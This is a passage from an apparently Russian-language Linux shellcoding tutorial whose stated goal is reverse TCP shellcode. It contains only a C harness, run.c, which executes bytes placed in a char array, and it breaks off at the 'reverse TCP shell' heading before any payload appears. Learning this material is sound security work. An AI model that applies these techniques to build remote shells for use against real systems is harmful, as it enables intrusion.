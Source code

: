 \newpage
\subsection{9. Shellcoding в Linux. Обратный TCP shellcode}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![linux shellcoding](./images/14/2021-10-16_11-42.png){width="80%"}          

В предыдущем разделе про shellcoding мы запускали обычную оболочку. В этом разделе моя цель - написать shellcode для обратного TCP-соединения.      

### Тестирование shellcode     

При тестировании shellcode удобно просто вставить его в программу и запустить. Мы будем использовать тот же код, что и в первом посте (`run.c`):           
```cpp
/*
run.c - небольшой каркас программы для выполнения shellcode
*/
// здесь будет байт-код
char code[] = "мой shellcode";

int main(int argc, char **argv) {
  int (*func)();             // указатель на функцию
  func = (int (*)()) code;   // func указывает на наш shellcode
  (int)(*func)();            // выполняем код в code[]
  // если программа вернула 0 вместо 1,
  // значит, shellcode сработал
  return 1;
}
```

### Обратный TCP shell
